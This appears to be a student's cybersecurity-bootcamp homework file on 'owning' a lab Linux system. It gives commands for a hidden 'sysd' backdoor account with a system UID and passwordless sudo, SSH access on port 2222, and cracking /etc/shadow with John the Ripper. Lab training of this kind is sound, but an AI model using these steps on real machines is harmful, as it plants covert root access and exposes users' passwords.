 <<<<<<< HEAD
## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

         useradd -M sysd
![sysd](image\sysd.png)

2. Give your secret user a password: 

         passwd sysd
    ![password](image\password.png)

3. Give your secret user a system UID < 1000:

        usermod -u 997 sysd
    ![UIDandGID](image\UIDandGID.png)


4. Give your secret user the same GID:

        groupmod -g 997 sysd
    ![UIDandGID](image\UIDandGID.png)

5. Give your secret user full `sudo` access without the need for a password:

        
        visudo
        sysd ALL=(ALL) NOPASSWD:ALL
    ![sudo](image\sudo.png)
    



6. Test that `sudo` access works without your password:

        sudo -l
    ![sudofile](image\sudofile.png)

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

                sudo nano /etc/ssh/sshd_config
    ![sshfile.png](image\sshfile.png)
        

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

        sudo systemctl restart ssh



2. Exit the `root` account:

        command exit or command su with the user account you want to switch to.

3. SSH to the target machine using your `sysd` account and port `2222`:

        ssh sysd@192.168.6.105 -p 2222
![sshsysd.png](image\sshsysd.png)

4. Use `sudo` to switch to the root user:

        sudo su 

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

        su sysd

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file: 

        unshadow passwd.txt shadow.txt > unshadowed.txt
        john --wordlist=/usr/share/john/password.lst unshadowed.txt



---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.


